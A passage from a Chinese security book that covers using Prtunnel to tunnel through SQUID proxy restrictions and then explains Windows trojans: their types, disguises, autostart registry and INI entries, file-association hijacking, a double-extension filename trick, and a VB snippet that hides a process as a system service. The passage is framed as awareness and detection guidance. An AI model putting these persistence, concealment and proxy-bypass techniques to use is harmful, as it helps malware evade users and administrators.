在众多的 Linux 代理服务器软件中，SQUID 的安全性和稳定性也是相当出色的，SQUID 对 Linux 网络内的计算机访问外部互联网网络的控制能力相当强。当我们使用一些网络软件通过代理服务器访问互联网资源时，例如 IRC、下载软件、Telnet、FTP、离线浏览软件等网络软件时，如果这些软件在设计的时候没有内建的代理支持功能，那么这些软件将无法正常地通过 SQUID 代理访问互联网资源。我们在 Windows 操作系统中使用 NETANT、LEAFTP、REALPLAY、聊天软件 QQ，甚至杀毒软件的自动更新程序都内建支持 HTTP 或者 SOCKS5 代理的功能。如图1所示，FOXMAIL 自带有代理服务器支持功能，通过代理服务我们可以用 FOXMAIL 收取互联网邮件服务器上的电子邮件，FOXMAIL 从 2.1 版本就开始支持使用 PROXY 收信。

我们在不能直接访问互联网时，若想使用这些网络软件，就可以填入代理服务器的地址和端口即可访问互联网。

然而，在 Linux 操作系统下的一些网络应用软件并没有内建代理支持功能，特别是一些个人设计的开放源代码软件、测试版本的软件，这给我们使用这些软件时带来许多麻烦。老牌的网络软件如 NETSCAPE 则不存在这种问题。SQUID 代理对一些敏感的 IP 地址和端口的请求把关相当严格，想要突破 SQUID 代理，使用 Prtunnel 软件可以解决这个问题。喜欢在 Linux 操作系统中使用 Telnet 和 IRC 的朋友，可以很顺利地突破 SQUID 等代理服务器，成功地访问互联网中的远程服务器，不再受到 SQUID 的端口和 IP 地址的限制了。

Prtunnel 的下载以及安装：

Prtunnel 实际上是一个连接 HTTP、SOCKS5 代理的 TCP 通道，Prtunnel 基于 X86 架构的 Slackware Linux 和 OpenBSD 操作系统平台设计，在几乎所有的 UNIX 类操作系统均可使用。

Prtunnel 的设计者是 Josh Beam（josh@joshbeam.com），在作者的主页有 Prtunnel 压缩包格式的软件下载：http://joshbeam.com/software/prtunnel.html


图6-9-1

Prtunnel 的安装相当简单，解压 Prtunnel-0.1.4.tar 压缩包后，用 ROOT 身份进入解压后的目录并输入：

```bash
make
make install
```

即可完成 Prtunnel 软件的安装。

Prtunnel 的基本用法模式如下：

```bash
prtunnel [options] <local port> <remote host> <remote port>
prtunnel [选项] <本机端口> <远程主机> <远程端口>
```

`<local port>` 指的是用户想让 Prtunnel 监听的本地或本机端口。  
`<remote host>` 指的是远程主机，即本机连接的代理服务器的地址或者代理服务器名。  
`<remote port>` 指的是用户想要 Prtunnel 连接到代理服务器的端口，即代理服务器端口所对应要提供的服务。

`[options]` 选项一共有 12 项，最常用的有如下几项：

- `-D`：`-D` 选项可以让 Prtunnel 作为一个 Linux 后台进程，以多任务进程形式运行。
- `-V`：`-V` 选项可以让 Prtunnel 输出详细的任务运行情况、数据传输交换情况。
- `-c`：`-c` 选项可以让 Prtunnel 输入输出数据用不同颜色显示，这样能让用户更容易地区别输入输出数据情况。
- `-6`：`-6` 选项可以让 Prtunnel 启用 IPv6 模式。
- `-t`（通道模式）：此模式可以让 Prtunnel 支持 HTTP（默认）、SOCKS5、直接访问模式和 DIRECT6 模式工作。如果用户使用 HTTP 和 SOCKS5 连接模式，则用户需要给 Prtunnel 指定正确的代理服务器地址。
- `-H`（代理服务器主机）：此选项指定用户想要使用的代理服务器名。
- `-P`（代理服务器端口）：此选项指定用户想要使用的代理服务器的端口。
- `-T`（地址）：此选项可以给 Prtunnel 指定可信任的代理服务器名及可信任的代理服务器地址。本地主机默认为可信任主机。用户可通过此选项详细指定可信任的代理服务器主机或者地址，以防误用不安全的代理服务器。例如，`-T 10.0.0.0/24` 指的是代理服务器地址为 `10.0.0.0 - 10.0.0.255` 这个 IP 段范围的主机都是可信任的。其他 IP 地址范围的代理服务器 Prtunnel 不予使用。
- `-u <username>`：设置代理服务器认证用户名。
- `-p <password>`：设置代理服务器认证密码。
- `-telnet-keep-alive`：此选项使得 prtunnel 保持 Telnet 服务一直保持连接远程服务器状态。
- `-irc-auto-pong`：此选项使得 prtunnel 保持本地 IRC 和远程 IRC 主机的连接和自动响应状态。
- `-h`：显示帮助信息。
- `-v`：显示 prtunnel 版本信息。

prtunnel 应用实例：

```bash
prtunnel -H Myproxy 6667 irc.freenode.net 6667
```

如果用户成功运行了此命令，那么本地的 IRC 客户端可以通过先连接本机的 127.0.0.1，再由 prtunnel 通过 6667 端口、名为 Myproxy 的本地代理服务器连接到 6667 端口的 irc.freenode.net 远程 IRC 服务器中。这样，用户就可以通过 prtunnel 突破 Myproxy 对 6667 端口的封锁，成功地连接到 irc.freenode.net 服务器上了。

## 第7章 远离木马和后门

### 7.1 揭开 Windows 木马的神秘面纱

#### 一、本专题讨论的话题

本文全面讨论了 Windows 木马的方方面面：如何工作，有何特性，当然，也有针对性地提出了一些如何尽量减少木马危害的措施。

由于本文同时也包含了很多其他文章里面未曾探讨过的主题和一些有特殊用途的检测软件的连接，所以，不论对只想保护自己的机器免受木马侵害的普通 Windows/Internet 用户很有参考价值，对于编程者或者系统分析者等高级用户，也可以带给你很多关于木马的新的、实用的观点。

虽然 Windows 木马只不过是 Windows 系统安全的一个微小组成部分而已，不过，很快你将看到它们能够对你的系统造成多么巨大危害。如果防范措施不力，那么带来的后果将是毁灭性的。

#### 二、什么是特洛伊木马

木马，其实质只是一个网络客户/服务程序。网络客户/服务模式的原理是一台主机提供服务（服务器），另一台主机接受服务（客户机）。作为服务器的主机一般会打开一个默认的端口并进行监听（Listen），如果有客户机向服务器的这一端口提出连接请求（Connect Request），服务器上的相应程序就会自动运行，来应答客户机的请求，这个程序我们称为守护进程。就我们前面所讲木马来说，被控制端相当于一台服务器，控制端则相当于一台客户机，被控制端为控制端提供服务。

木马具有以下 6 个特性：

- 1. 包含于正常程序中，当用户执行正常程序时，启动自身，在用户难以察觉的情况下，完成一些危害用户的操作，具有隐蔽性。  
  由于木马所从事的是“地下工作”，因此它必须隐藏起来，它会想尽一切办法不让你发现它。很多人对木马和远程控制软件有点分不清，还是让我们举个例子来说吧。我们进行局域网间通讯的常用软件 PCanywhere 大家一定不陌生吧？我们都知道它是一款远程控制软件。PCanywhere 在服务器端运行时，客户端与服务器端连接成功后，客户端机会出现很醒目的提示标志；而木马类软件的服务器端在运行的时候会应用各种手段隐藏自己，不可能出现任何明显标志。木马开发者早就想到了可能暴露木马踪迹的问题，把它们隐藏起来了。例如大家所熟悉的木马会修改注册表和 ini 文件，以使机器在下一次启动后仍能载入木马程序；它不是自己生成一个启动程序，而是依附在其他程序之中。有些木马把服务器端和正常程序绑定成一个程序，这类软件叫做 exe-binder 绑定程序，可以让人在使用绑定程序时，木马也入侵系统。甚至有个别木马程序能把它自身的 exe 文件和图片文件绑定，在你看图片的时候，木马便侵入了你的系统。它的隐蔽性主要体现在以下两个方面：  
  （1）不产生图标。木马虽然在你系统启动时会自动运行，但它不会在“任务栏”中产生一个图标，这是容易理解的，不然的话，你看到任务栏中出现一个来历不明的图标，你不起疑心才怪呢！  
  （2）木马程序自动在任务管理器中隐藏，并以“系统服务”的方式欺骗操作系统。
- 2. 具有自动运行性。  
  木马为了控制服务端，它必须在系统启动时即跟随启动，所以它必须潜入在你的启动配置文件中，如 win.ini、system.ini、winstart.bat 以及启动组等文件之中。
- 3. 包含具有未公开并且可能产生危险后果的功能的程序。
- 4. 具备自动恢复功能。  
  现在很多木马程序中的功能模块已不再由单一文件组成，而是具有多重备份，可以相互恢复。当你删除了其中一个，以为万事大吉又运行了其他程序的时候，谁知它又悄然出现，像幽灵一样，防不胜防。
- 5. 能自动打开特别的端口。  
  木马程序潜入你的电脑之中的目的主要不是为了破坏你的系统，而是为了获取你的系统中有用的信息。当你上网时能与远端客户进行通讯，这样木马程序就会用服务器/客户端的通讯手段把信息告诉黑客们，以便黑客们控制你的机器，或实施进一步的入侵企图。你知道你的电脑有多少个端口？不知道吧？告诉你别吓着：根据 TCP/IP 协议，每台电脑可以有 256×256 个端口，也即从 0 到 65535 号“门”，但我们常用的只有少数几个，木马经常利用我们不大用的这些端口进行连接，大开方便之“门”。
- 6. 功能的特殊性。  
  通常的木马功能都是十分特殊的，除了普通的文件操作以外，还有些木马具有搜索 cache 中的口令、设置口令、扫描目标机器人的 IP 地址、进行键盘记录、远程注册表操作以及锁定鼠标等功能。上面所讲的远程控制软件当然不会有这些功能，毕竟远程控制软件是用来控制远程机器、方便自己操作而已，而不是用来黑对方机器的。

#### 三、特洛伊木马是如何工作的

一般的木马程序都包括客户端和服务端两个程序，其中客户端用于攻击者远程控制植入木马的机器，服务器端程序即是木马程序。攻击者要通过木马攻击你的系统，他所做的第一步是要把木马的服务器端程序植入到你的电脑里面。

目前木马入侵的主要途径，还是先通过一定的方法把木马执行文件弄到被攻击者的电脑系统里，利用的途径有邮件附件、下载软件中等，然后通过一定的提示故意误导被攻击者打开执行文件。比如故意谎称这个木马执行文件是你朋友送给你的贺卡，可能你打开这个文件后，确实有贺卡画面出现，但这时木马可能已经悄悄在你的后台运行了。一般木马执行文件非常小，大部分都是几 K 到几十 K，如果把木马捆绑到其他正常文件上，你很难发现。所以，有一些网站提供的软件下载往往是捆绑了木马文件的，你执行这些下载文件，也同时运行了木马。

木马也可以通过 Script、ActiveX 及 ASP、CGI 交互脚本的方式植入。由于微软浏览器在执行 Script 脚本上存在一些漏洞，攻击者可以利用这些漏洞传播病毒和木马，甚至直接对浏览者电脑进行文件操作等控制。前不久就出现一个利用微软 Script 脚本漏洞对浏览者硬盘进行格式化的 HTML 页面。如果攻击者有办法把木马执行文件上传到攻击主机的一个可执行 WWW 目录夹里面，他可以通过编辑 CGI 程序在攻击主机上执行木马。此外，木马还可以利用系统的一些漏洞进行植入，如微软著名的 IIS 服务器溢出漏洞，通过一个 IIS HACK 攻击程序即可使 IIS 服务器崩溃，并且同时攻击服务器，执行远程木马执行文件。

当服务端程序在被感染的机器上成功运行以后，攻击者就可以使用客户端与服务端建立连接，并进一步控制被感染的机器。在客户端和服务端通信协议的选择上，绝大多数木马使用的是 TCP/IP 协议，但是也有一些木马由于特殊原因，使用 UDP 协议进行通信。

把自己隐藏在计算机的某个角落里面，以防被用户发现；同时监听某个特定的端口，等待客户端与其取得连接；另外，为了下次重启计算机时仍然能正常工作，木马程序一般会通过修改注册表或者其他方法让自己成为自启动程序。

#### 四、木马的种类

自从木马程序诞生至今，已经出现了多种类型。想在这里给它们来一次完全的列举和说明是不可能的，更何况大多数的木马都不是单一功能的木马，它们往往是很多种功能的集成品——甚至有很多从未公开的功能，在一些木马中也广泛地存在着。尽管如此，给木马程序来一个初步的分类，对于电脑使用者来说也是非常必要和及时的。

- 1. 远程控制木马

远程控制木马是数量最多、危害最大、同时知名度也最高的一种木马。它可以让攻击者完全控制被感染的计算机，攻击者可以利用它完成一些甚至连计算机主人本身都不能顺利进行的操作，其危害之大实在不容小觑。由于要达到远程控制的目的，所以该种类的木马往往集成了其他种类木马的功能，使其在被感染的机器上为所欲为，可以任意访问文件，得到机主的私人信息——甚至包括信用卡、银行账号等至关重要的信息。

大名鼎鼎的木马“冰河”就是一个远程访问型特洛伊木马。这类木马用起来是非常简单的，只需有人运行服务端并且得到了受害人的IP，就会访问到他/她的电脑。他们能在你的机器上干任何事。远程访问型木马的普遍特征是：键盘记录、上传和下载功能、注册表操作、限制系统功能……等。远程访问型特洛伊木马会在你的电脑上打开一个端口以保持连接，如图7-1-1所示。

图7-1-1

- 2. 密码发送木马

在信息安全日益重要的今天，密码无疑是通向重要信息的一把极其有用的钥匙，只要掌握了对方的密码，从很大程度上说，就可以无所顾忌地得到对方的很多信息。而密码发送型的木马正是专门为了盗取被感染计算机上的密码而编写的。木马一旦被执行，就会自动搜索内存、Cache、临时文件夹以及各种敏感密码文件，一旦搜索到有用的密码，木马就会利用免费的电子邮件服务将密码发送到指定的邮箱，从而达到获取密码的目的。所以这类木马大多使用25号端口发送E-mail。大多数这类特洛伊木马不会在每次Windows重启时重启。这种特洛伊木马的目的是找到所有的隐藏密码，并且在受害者不知道的情况下把它们发送到指定信箱。如果你有隐藏密码，这些特洛伊木马是危险的。

由于我们需要获得的密码多种多样，存放形式也大不相同，所以很多时候我们需要自己编写程序，从而得到符合自己要求的木马。

- 3. 键盘记录木马

这种特洛伊木马是非常简单的。它们只做一件事情，就是记录受害者的键盘敲击，并且在LOG文件里查找密码。据笔者经验，这种特洛伊木马随着Windows的启动而启动。它们有在线和离线记录这样的选项，顾名思义，它们分别记录你在线和离线状态下敲击键盘时的按键情况。也就是说你按过什么按键，木马的人都知道，从这些按键中他很容易就会得到你的密码等有用信息，甚至是你的信用卡账号哦！当然，对于这种类型的木马，邮件发送功能也是必不可少的。

- 4. 破坏性质的木马

这种木马唯一的功能就是破坏被感染计算机的文件系统，使其遭受系统崩溃或者重要数据丢失的巨大损失。从这一点上来说，它和病毒很相像。不过，一般来说，这种木马的激活是由攻击者控制的，并且传播能力也比病毒逊色很多。

- 5. DoS攻击木马

随着DoS攻击越来越广泛的应用，被用作DoS攻击的木马也越来越流行起来。当你入侵了一台机器，给它种上DoS攻击木马，那么日后这台计算机就成为你DoS攻击的最得力助手了。你控制的肉鸡数量越多，你发动DoS攻击取得成功的几率就越大。所以，这种木马的危害不是体现在被感染计算机上，而是体现在攻击者可以利用它来攻击一台又一台计算机，给网络造成很大的伤害和带来损失。

还有一种类似DoS的木马叫做邮件炸弹木马，一旦机器被感染，木马就会随机生成各种各样主题的信件，对特定的邮箱不停地发送邮件，一直到对方瘫痪、不能接受邮件为止。

- 6. 代理木马

黑客在入侵的同时掩盖自己的足迹，谨防别人发现自己的身份是非常重要的。因此，给被控制的肉鸡种上代理木马，让其变成攻击者发动攻击的跳板，就是代理木马最重要的任务。通过代理木马，攻击者可以在匿名的情况下使用Telnet、ICQ、IRC等程序，从而隐藏自己的踪迹。

- 7. FTP木马

这种木马可能是最简单和古老的木马了，它的唯一功能就是打开21端口，等待用户连接。现在新FTP木马还加上了密码功能，这样，只有攻击者本人才能知道正确的密码，从而进入对方计算机。

- 8. 程序杀手木马

上面的木马功能虽然形形色色，不过到了对方机器上要发挥自己的作用，还要过防木马软件这一关才行。常见的防木马软件有ZoneAlarm、Norton Anti-Virus等。程序杀手木马的功能就是关闭对方机器上运行的这类程序，让其他木马更好地发挥作用。在http://www.snake-basket.de/e/AV.txt 这个地址，你能找到现在流行使用的绝大多数防病毒和防木马软件的名称、介绍以及结束它们的方法。

- 9. 反弹端口型木马

木马开发者在分析了防火墙的特性后发现：防火墙对于连入的连接往往会进行非常严格的过滤，但是对于连出的连接却疏于防范。于是，与一般木马相反，反弹端口型木马的服务端（被控制端）使用主动端口，客户端（控制端）使用被动端口。木马定时监测控制端的存在，发现控制端上线后立即弹出端口，主动连接控制端打开的主动端口。为了隐藏起见，控制端的被动端口一般开在80。这样，即使用户使用端口扫描软件检查自己的端口，发现的也是类似“TCP UserIP:1026 ControllerIP:80 ESTABLISHED”的情况，稍微疏忽一点，你就会以为是自己在浏览网页（防火墙也会这么认为，我想大概没有哪个防火墙会不让用户向外连接80端口吧）。

看到这里，有人会问：那服务端怎么能知道控制端的IP地址呢？难道控制端只能使用固定的IP地址？一查就查到了。实际上，这种反弹端口的木马常常会采用固定IP的第三方存储设备来进行IP地址的传递。举一个简单的例子：事先约定好一个个人主页空间，在其中放置一个文本文件，木马每分钟去GET一次这个文件，如果文件内容为空，就什么都不做；如果有内容，就按照文本文件中的数据计算出控制端的IP和端口，反弹一个TCP连接回去。这样，每次控制者上线只需要FTP一个INI文件，就可以告诉木马自己的位置。为了保险起见，这个IP地址甚至可以经过一定的加密，除了服务端和控制端，其他人就算拿到了也没有任何意义。对于一些能够分析报文、过滤TCP/UDP的防火墙，反弹端口型木马同样有办法对付。简单来说，控制端使用80端口的木马完全可以真的使用HTTP协议，将传送的数据包含在HTTP报文中。难道防火墙真的精明到可以分辨通过HTTP协议传送的究竟是网页，还是控制命令和数据？如图7-1-2所示。

图7-1-2

#### 五、木马采用的伪装方法

鉴于木马的危害性，加之媒体的广泛宣传，今天的人们对木马都有了一定程度的了解，这对木马的传播起了一定的抑制作用。当然，这是木马设计者所不愿见到的，因此他们想出许多办法来伪装木马，以达到降低用户警惕性、欺骗用户的目的。

- 1. 修改图标

木马服务端所用的图标也是有讲究的，木马经常故意伪装成TXT、HTML等你可能认为对系统没有多少危害的文件图标，这样很容易诱惑你把它打开。看看，木马是不是很狡猾？

- 2. 捆绑文件

这种伪装手段是将木马捆绑到一个安装程序上，当安装程序运行时，木马在用户毫无察觉的情况下偷偷进入系统。被捆绑的文件一般是可执行文件（即EXE、COM一类的文件）。

- 3. 出错显示

有一定木马知识的人都知道，如果打开一个文件没有任何反应，这很可能就是个木马程序。木马的设计者也意识到了这个缺陷，所以已经有木马提供了一个叫做“出错显示”的功能。当服务端用户打开木马程序时，会弹出一个错误提示框（这当然是假的），错误内容可自由定义，大多会定制成一些诸如“文件已破坏，无法打开！”之类的信息。当服务端用户信以为真时，木马却悄悄侵入了系统。

- 4. 自我销毁

这项功能是为了弥补木马的一个缺陷。我们知道，当服务端用户打开含有木马的文件后，木马会将自己拷贝到Windows的系统文件夹中（C:\windows或C:\windows\system目录下）。一般来说，源木马文件和系统文件夹中的木马文件大小是一样的（捆绑文件的木马除外）。那么，中了木马的朋友只要在近来收到的信件和下载的软件中找到源木马文件，然后根据源木马的大小去系统文件夹找相同大小的文件，判断一下哪个是木马就行了。而木马的自我销毁功能是指安装完木马后，源木马文件自动销毁，这样服务端用户就很难找到木马来源；在没有查杀木马工具帮助的情况下，就很难删除木马了。

- 5. 木马更名

木马服务端程序的命名也有很大的学问。如果不做任何修改，就使用原来的名字，谁不知道这是个木马程序呢？所以木马的命名也是千奇百怪，不过大多是改为和系统文件名差不多的名字。如果你对系统文件不够了解，那可就危险了。例如有的木马把名字改为window.exe，如果不告诉你这是木马的话，你敢删除吗？还有的会更改一些后缀名，比如把dll改为dl等，不仔细看的话，你会发现吗？

#### 六、木马的隐藏方式

##### 1. 在任务栏里隐藏

这是最基本的隐藏方式。如果在Windows的任务栏里出现一个莫名其妙的图标，傻子都会明白是怎么回事。要实现在任务栏中隐藏，在编程时是很容易实现的。我们以VB为例，在VB中，只要把Form的Visible属性设置为False，ShowInTaskBar设为False，程序就不会出现在任务栏里了。

##### 2. 在任务管理器里隐藏

查看正在运行进程最简单的方法就是按下Ctrl+Alt+Del时出现的任务管理器。如果你按下Ctrl+Alt+Del后可以看见一个木马程序在运行，那么这肯定不是什么好木马。所以，木马会千方百计地伪装自己，使自己不出现在任务管理器里。木马发现把自己设为“系统服务”就可以轻松骗过去。在VB中，通过如下代码就可以实现这一功能：

```vb
Public Declare Function RegisterServiceProcess Lib "kernel32" (ByVal ProcessID As Long, ByVal ServiceFlags As Long) As Long
Public Declare Function GetCurrentProcessId Lib "kernel32" () As Long
'（以上为声明）
Private Sub Form_Load()
    RegisterServiceProcess GetCurrentProcessId, 1  '（注册系统服务）
End Sub
Private Sub Form_Unload()
    RegisterServiceProcess GetCurrentProcessId, 0  '（取消系统服务）
End Sub
```

因此，希望通过按Ctrl+Alt+Del发现木马是不大现实的。

##### 3. 端口

一台机器有65536个端口，你会注意这么多端口么？而木马就很注意你的端口。如果你稍微留意一下，不难发现，大多数木马使用的端口在1024以上，而且呈越来越大的趋势；当然也有占用1024以下端口的木马，但这些端口是常用端口，占用这些端口可能会造成系统不正常。这样的话，木马就会很容易暴露。也许你知道一些木马占用的端口，你或许会经常扫描这些端口，但现在的木马都提供端口修改功能，你有时间扫描65536个端口么？

### 4. 隐藏通讯

隐藏通讯也是木马经常采用的手段之一。任何木马运行后都要和攻击者进行通信连接，或者通过即时连接，如攻击者通过客户端直接接入被植入木马的主机；或者通过间接通信，如通过电子邮件的方式，木马把侵入主机的敏感信息送给攻击者。现在大部分木马一般在占领主机后会在1024以上不易发现的高端口上驻留；有一些木马会选择一些常用端口，如80、23；有一种非常先进的木马还可以做到在占领80 HTTP端口后，收到正常的HTTP请求仍然把它交与Web服务器处理，只有收到一些特殊约定的数据包后，才调用木马程序。

目前大部分木马都是采用TCP连接的方式使攻击者控制主机，这样，通过简单的netstat命令或者监视数据包等方式即可以查出攻击者IP。为了保护自己不被发现，木马开发者编制出了新的木马，可以通过ICMP数据包进行通信控制。这样，除非分析数据包里面的内容，否则很难发现木马连接。

##### 5. 隐藏加载方式

木马加载的方式可以说千奇百怪，无奇不有。但殊途同归，都为了达到一个共同的目的，那就是使你运行木马的服务端程序。如果木马不加任何伪装，就告诉你这是木马，你会运行它才怪呢。而随着网站互动化进程的不断进步，越来越多的东西可以成为木马的传播介质，Java Script、VBScript、ActiveX、XML……几乎WWW每一个新功能都会导致木马的快速进化。

##### 6. 最新隐身技术

在Win9x时代，简单地注册为系统进程就可以从任务栏中消失，可是在Windows 2000盛行的今天，这种方法遭到了惨败，注册为系统进程不仅能在任务栏中看到，而且可以直接在Services中直接控制停止、运行（太搞笑了，木马被客户端控制）。使用隐藏窗体或控制台的方法也不能欺骗无所不见的Admin大人（要知道，在NT下，Administrator是可以看见所有进程的）。在研究了其他软件的长处之后，木马发现Windows下的中文汉化软件采用的陷阱技术非常适合木马的使用。

这是一种更新、更隐蔽的方法。通过修改虚拟设备驱动程序（VXD）或修改动态连接库（DLL）来加载木马。这种方法与一般方法不同，它基本上摆脱了原有的木马模式——监听端口，而采用替代系统功能的方法（改写VXD或DLL文件）。木马会将修改后的DLL替换系统已知的DLL，并对所有函数调用进行过滤。对于常用调用，使用函数转发器直接转发给被替换的系统DLL；对于一些事先约定好的特种情况，DLL会执行一些相应的操作。实际上，这样的木马一般只是使用DLL进行监听，一旦发现控制端的连接请求就激活自身，绑在一个进程上进行正常的木马操作。这样做的好处是没有增加新的文件，不需要打开新的端口，没有新的进程，使用常规方法监测不到它。在正常运行时，木马几乎没有任何症状，而一旦木马控制端向被控制端发出特定信息后，隐藏程序就立即开始运作。

因为大量特洛伊DLL的使用实际上已经危害到了Windows操作系统的安全和稳定性，微软已经开始使用DLL数字签名、校验技术来加强系统安全性。因此，特洛伊DLL的时代很快会结束。取代它的将会是强行嵌入代码技术（插入DLL、挂接API、进程的动态替换等等），但是这种技术对于编写者的汇编功底要求很高，涉及大量硬编码的机器指令，并不是一般木马编写者可以涉足的。

#### 七、木马是如何启动的

作为一个优秀的木马，自启动功能是必不可少的，这样可以保证木马不会因为你的一次关机操作而彻底失去作用。正因为该项技术如此重要，所以很多编程人员都在不停地研究和探索新的自启动技术，并且时常有新的发现。一个典型的例子就是把木马加到用户经常执行的程序（例如explorer.exe）中，用户执行该程序时，则木马自动发生作用。当然，更加普通的方法是通过修改Windows系统文件和注册表达到目的。现在常用的方法主要有以下几种：

- 1. 在Win.ini中启动

在Win.ini的[windows]字段中有启动命令“load=”和“run=”。在一般情况下“=”后面是空白的，如果有后跟程序，比方说是这个样子：

```
run=c:\windows\file.exe
load=c:\windows\file.exe
```

要小心了，这个file.exe很可能是木马哦。

- 2. 在System.ini中启动

System.ini位于Windows的安装目录下，其[boot]字段的shell=Explorer.exe是木马喜欢的隐藏加载之所。木马通常的做法是将该句变为这样：shell=Explorer.exe file.exe。注意这里的file.exe就是木马服务端程序！

另外，在System.ini中的[386Enh]字段，要注意检查在此段内的“driver=路径\程序名”，这里也有可能被木马所利用。再有，在System.ini中的[mic]、[drivers]、[drivers32]这3个字段，这些段也是起到加载驱动程序的作用，但是增添木马程序的好场所，现在你该知道也要注意这里哦。

- 3. 利用注册表加载运行

如下所示注册表位置都是木马喜好的藏身加载之所，赶快检查一下有什么程序在其下，睁大眼睛仔细看看，别放过木马哦。

下面提一些典型的自启动键值：

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"Info"="c:\directory\Trojan.exe"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
"Info"="c:\directory\Trojan.exe"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
"Info"="c:\directory\Trojan.exe"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
"Info"="c:\directory\Trojan.exe"
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"Info"="c:\directory\Trojan.exe"
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
"Info"="c:\directory\Trojan.exe"
```

如果你想让每执行一次EXE文件都能自动执行木马，那么可以设置如下位置的键值：

```
[HKEY_CLASSES_ROOT\exefile\shell\open\command]
[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\exefile\shell\open\command]
```

  - ICQ自启动

```
[HKEY_CURRENT_USER\Software\Mirabilis\ICQ\Agent\Apps\]
```

当ICQ检测到网络连接时，会自动执行这个键下的程序。

  - ActiveX部件

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\ActiveSetup\InstalledComponents\KeyName]
StubPath=C:\directory\Trojan.exe
```

这些都是木马编写者们经常使用的方法。

- 4. 在Autoexec.bat和Config.sys中加载运行

请大家注意，在C盘根目录下的这两个文件也可以启动木马。但这种加载方式一般都需要控制端用户与服务端建立连接后，将已添加木马启动命令的同名文件上传到服务端覆盖这两个文件才行。而且采用这种方式不是很隐蔽，容易被发现，所以在Autoexec.bat和Config.sys中加载木马程序的并不多见，但也不能因此而掉以轻心哦。

- 5. 在Winstart.bat中启动

Winstart.bat是一个特殊性丝毫不亚于Autoexec.bat的批处理文件，也是一个能自动被Windows加载运行的文件。它多数情况下为应用程序及Windows自动生成，在执行了Win.com并加载了多数驱动程序之后运行。

开始执行（这一点可通过启动时按 F8 键，再选择“逐步跟踪启动过程”的启动方式可得知）。由于 Autoexec.bat 的功能可以由 Winstart.bat 代替完成，因此木马完全可以像在 Autoexec.bat 中那样被加载运行，危险由此而来。

## 6. 启动组

木马们如果隐藏在启动组，虽然不是十分隐蔽，但这里的确是自动加载运行的好场所，因此还是有木马喜欢在这里驻留的。启动组对应的文件夹为：`C:\windows\start menu\programs\startup`，在注册表中的位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders Startup="C:\windows\start menu\programs\startup"`。要注意经常检查启动组哦！

## 7. *.INI

即应用程序的启动配置文件，控制端利用这些文件能启动程序的特点，将制作好的带有木马启动命令的同名文件上传到服务端，覆盖这同名文件，这样就可以达到启动木马的目的了。只启动一次的方式：在 `wininit.ini` 中（用于安装较多）。

## 8. 修改文件关联

修改文件关联是木马们常用手段（主要是国产木马，老外的木马大都没有这个功能）。比如说正常情况下 TXT 文件的打开方式为 Notepad.EXE 文件，但一旦中了文件关联木马，则 txt 文件打开方式就会被修改为用木马程序打开，如著名的国产木马“冰河”就是这样干的。“冰河”就是通过修改 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的键值，将“`C:\WINDOWS\NOTEPAD.EXE %1`”改为“`C:\WINDOWS\SYSTEM\SYSEXPLR.EXE %1`”，这样，一旦你双击一个 TXT 文件，原本应用 Notepad 打开该文件，现在却变成启动木马程序了，好狠毒哦！请大家注意，不仅仅是 TXT 文件，其他诸如 HTM、EXE、ZIP、COM 等都是木马的目标，要小心哟。对付这类木马，只能经常检查 `HKEY_CLASSES_ROOT\文件类型\shell\open\command` 主键，查看其键值是否正常。

## 9. 捆绑文件

实现这种触发条件，首先要控制端和服务端已通过木马建立连接，然后控制端用户用工具软件将木马文件和某一应用程序捆绑在一起，然后上传到服务端覆盖源文件，这样即使木马被删除了，只要运行捆绑了木马的应用程序，木马又会安装上去。绑定到某一应用程序中，如绑定到系统文件，那么每一次 Windows 启动均会启动木马。

## 10. 反弹端口型木马的主动连接方式

反弹端口型木马我们已经在前面说过了，由于它与一般的木马相反，其服务端（被控制端）主动与客户端（控制端）建立连接，并且监听端口一般开在 80，所以如果没有合适的工具、丰富的经验真的很难防范。这类木马的典型代表就是“网络神偷”，目前最新版为 V2.5。由于这类木马仍然要在注册表中建立键值（如我们在第三点中所讲的那样），因此只要留意注册表的变化就不难查到它们。同时，最新的天网防火墙也可在网络神偷服务端进行主动连接时发现它。

#### 八、我的计算机是如何感染木马程序的

也许很多没看过这篇文章的人，对这个问题都不以为然。他们认为感染木马程序唯一的途径就是下载并且运行了 server.exe（木马服务器端程序），并且他们还天真地以为只要不下载服务程序，就万事大吉了。有这种想法的朋友，请慢慢往下看；我会演示给你看有多少途径可以让你的计算机受到感染，并且被人利用作一些违反法纪的事情。再次提醒：请牢记这里提出的问题，在自己使用计算机的过程中，牢牢记住，并且遵照执行，信息安全问题，不容忽视。

总的来说，木马感染计算机有如下几个途径：ICQ、IRC、黑客攻击、物理接触、浏览器和 E-mail 软件漏洞以及 NetBIOS 的文件共享服务，下面我们来分别详细分析一下。

##### 1. QQ/ICQ

有很多人一直不能明白，为什么仅仅是在 QQ/ICQ 或者其他的 Internet 通信软件上和别人聊天就会被木马感染。但是，请先相信我，不管对方是谁，在什么地方，以什么理由通过 QQ/ICQ 给你发送软件，你都不能轻易相信对方，这是最基本的网络安全原则。

- 让我们看看通过 ICQ 感染木马的其他各种途径：
- 1. 你在任何时候都不能 100% 肯定网线的另一端到底是谁，也许他的 ICQ 号是你最好朋友的号码，可是谁又能肯定他不是黑了你朋友的 ICQ 号，并且进一步让你也跟着遭殃的黑客呢？
- 2. 旧版的 ICQ 在建立 WebServer 服务器的功能上存在很大的 Bug，这个功能可以让攻击者访问到你硬盘上的各个文件。如果你认真阅读了本文前面的内容，那你就会知道，让攻击者访问到你的注册表和 Win.ini 文件是一件多么危险的事情。
- 3. 攻击者可以把 Trojan.exe 重命名成 Trojan……（中间省略 150 个空格）.txt.exe，然后把这个软件的图标换成标准的文本文档图标。你接收到该文件时，看到的就是一个不折不扣的文本文档，可是当你打开该文件时，对不起，木马已经感染了你的计算机。

- 作为解决的方法，不管你使用的是哪种 Internet 通讯软件；为了防止被木马感染，你都要注意做到如下 3 点：
